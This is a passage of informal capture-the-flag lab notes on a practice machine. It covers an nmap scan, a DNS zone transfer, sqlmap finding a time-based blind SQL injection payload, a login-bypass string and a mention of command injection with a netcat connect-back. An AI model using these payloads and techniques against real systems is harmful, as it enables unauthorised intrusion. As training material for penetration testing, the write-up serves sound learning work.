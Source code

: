 ```
nmap -sC -sV 10.129.200.68                 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-28 03:07 EDT
Nmap scan report for 10.129.200.68
Host is up (0.53s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.12 seconds

adding to /etc/hosts gets us awebsite

![](20230528031317.png)

uses laravel 10.x
 
forge.laravel?

checked for some basic vulnerabilities
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/laravel

not found

$ nslookup    
> server cronos.htb
Default server: cronos.htb
Address: 10.129.200.68#53
> cronos.htb
;; communications error to 10.129.200.68#53: timed out
Server:         cronos.htb
Address:        10.129.200.68#53

Name:   cronos.htb
Address: 10.10.10.13
> 10.129.200.68
;; communications error to 10.129.200.68#53: timed out
68.200.129.10.in-addr.arpa      name = ns1.cronos.htb.

### dns domain transfer

`dig axfr @10.129.200.68 cronos.htb`

```
└─$ dig axfr @10.129.200.68 cronos.htb

; <<>> DiG 9.18.12-1-Debian <<>> axfr @10.129.200.68 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 308 msec
;; SERVER: 10.129.200.68#53(10.129.200.68) (TCP)
;; WHEN: Sun May 28 03:37:42 EDT 2023
```

```

looking at admin url we find that

![](20230528035153.png)


lets try to use sql map on this

```
POST / HTTP/1.1
Host: admin.cronos.htb
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://admin.cronos.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://admin.cronos.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=k03eq4gj9eoqg770kdeue8bpn1
Connection: close

username=admin&password=admin
```

`sqlmap -r login.req --batch`

```
'http://admin.cronos.htb:80/welcome.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[04:04:39] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 71 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 6847 FROM (SELECT(SLEEP(5)))oEZg) AND 'kWak'='kWak&password=admin
---
[04:04:57] [INFO] the back-end DBMS is MySQL

```

we got something from sql map

we can do somethingwith the username
`admin'-- -`

![](20230528041057.png)

command injection exists

we cann run a nc server
we got a connect back but it went





### Lesson learnt

we can perform nslookup if dns is being provided by the target box. we can also do domain transfer to list all the subdomains.



